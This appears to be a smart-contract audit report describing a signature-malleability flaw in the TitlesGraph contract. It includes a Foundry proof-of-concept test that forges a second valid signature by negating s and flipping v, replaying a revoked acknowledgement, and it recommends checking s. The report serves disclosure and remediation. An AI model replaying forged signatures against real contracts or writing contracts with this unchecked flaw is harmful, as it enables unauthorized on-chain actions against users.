 Precise Carmine Carp

medium

# `TitlesGraph` signatures are malleable

## Summary
The [TitlesGraph](https://github.com/sherlock-audit/2024-04-titles/blob/main/wallflower-contract-v2/src/graph/TitlesGraph.sol) contract is vulnerable to [signature malleability](https://medium.com/draftkings-engineering/signature-malleability-7a804429b14a). Because of this, any party can execute an already used signature for a second time.

## Vulnerability Detail
As explained in the linked article, if `(r,s)` is a valid signature, so is `(r, -s mod n)`.
[TitlesGraph](https://github.com/sherlock-audit/2024-04-titles/blob/main/wallflower-contract-v2/src/graph/TitlesGraph.sol) uses [SignatureCheckerLib](https://github.com/Vectorized/solady/blob/91d5f64b39a4d20a3ce1b5e985103b8ea4dc1cfc/src/utils/SignatureCheckerLib.sol) which does not check if the signature is malleable, as explained in this [line](https://github.com/Vectorized/solady/blob/91d5f64b39a4d20a3ce1b5e985103b8ea4dc1cfc/src/utils/SignatureCheckerLib.sol#L23).

As a result, each signature can be replayed one more time and the [isUsed](https://github.com/sherlock-audit/2024-04-titles/blob/d7f60952df22da00b772db5d3a8272a988546089/wallflower-contract-v2/src/graph/TitlesGraph.sol#L44) check can be bypassed.
```solidity
    modifier checkSignature(bytes32 edgeId, bytes calldata data, bytes calldata signature) {
        bytes32 digest = _hashTypedData(keccak256(abi.encode(ACK_TYPEHASH, edgeId, data)));
        if (
            !edges[edgeId].to.creator.target.isValidSignatureNowCalldata(digest, signature)
                || _isUsed[keccak256(signature)]
        ) {
            revert Unauthorized();
        }
        _;
        _isUsed[keccak256(signature)] = true;
    }
```
Here is a coded PoC in Foundry that demonstrates how an user (Alice) acknowledges an edge via signature. After that Alice changes her mind and unacknowledges the edge. Since her signature is malleable, anyone can use it to acknowledge the edge again.

*NOTE:* For simplicity, the following function has to be added to [TitlesGraph](https://github.com/sherlock-audit/2024-04-titles/blob/main/wallflower-contract-v2/src/graph/TitlesGraph.sol) before running the PoC.
```solidity
    function hashTypedData(bytes32 structHash) public view virtual returns (bytes32 digest) {
        return _hashTypedData(structHash);
    }
```

The actual test to be run in [TitlesCore.t.sol](https://github.com/sherlock-audit/2024-04-titles/blob/main/wallflower-contract-v2/test/TitlesCore.t.sol)
```solidity
    function test_signature_malleability() public {
        bytes32 ACK_TYPEHASH = keccak256("Ack(bytes32 edgeId,bytes data)");
        (address alice, uint256 alicePk) = makeAddrAndKey("alice");

        Node memory fromNode = Node({
            nodeType: NodeType.COLLECTION_ERC1155,
            entity: Target({target: address(this), chainId: block.chainid}),
            creator: Target({target: address(2), chainId: block.chainid}),
            data: ""
        });

        Node memory toNode = Node({
            nodeType: NodeType.TOKEN_ERC1155,
            entity: Target({target: address(3), chainId: block.chainid}),
            creator: Target({target: alice, chainId: block.chainid}),
            data: bytes(
                hex"000000000000000000000000000000000000000000000000000000000000002a"
            )
        });

        Edge memory edge = titlesGraph.createEdge(fromNode, toNode, "");

        bytes32 edgeId = keccak256(abi.encode(fromNode, toNode));
        bytes memory data = hex"";
        bytes32 digest = titlesGraph.hashTypedData(
            keccak256(abi.encode(ACK_TYPEHASH, edgeId, data))
        );

        (uint8 v, bytes32 r, bytes32 s) = vm.sign(alicePk, digest);
        bytes memory signature = abi.encodePacked(r, s, v);

        edge = titlesGraph.acknowledgeEdge(edgeId, data, signature);
        assertTrue(edge.acknowledged);

        vm.prank(alice);
        edge = titlesGraph.unacknowledgeEdge(edgeId, data);
        assertFalse(edge.acknowledged);

        uint8 manipulatedV = v % 2 == 0 ? v - 1 : v + 1;
        uint256 manipulatedS = modNegS(uint256(s));
        signature = abi.encodePacked(r, bytes32(manipulatedS), manipulatedV);

        // Anyone can forge the already used signature and acknowledge the edge again
        edge = titlesGraph.acknowledgeEdge(edgeId, data, signature);
        assertTrue(edge.acknowledged);
    }

    function modNegS(uint256 s) public pure returns (uint256) {
        uint256 n = 0xfffffffffffffffffffffffffffffffebaaedce6af48a03bbfd25e8cd0364141;
        return n - s;
    }
```

## Impact
Signatures are malleable, anyone can replay an already used signature.

## Code Snippet
https://github.com/sherlock-audit/2024-04-titles/blob/d7f60952df22da00b772db5d3a8272a988546089/wallflower-contract-v2/src/graph/TitlesGraph.sol#L40C1-L50C6
## Tool used

Foundry

## Recommendation
Implement a check for the `s` parameter to ensure the signatures are not malleable.
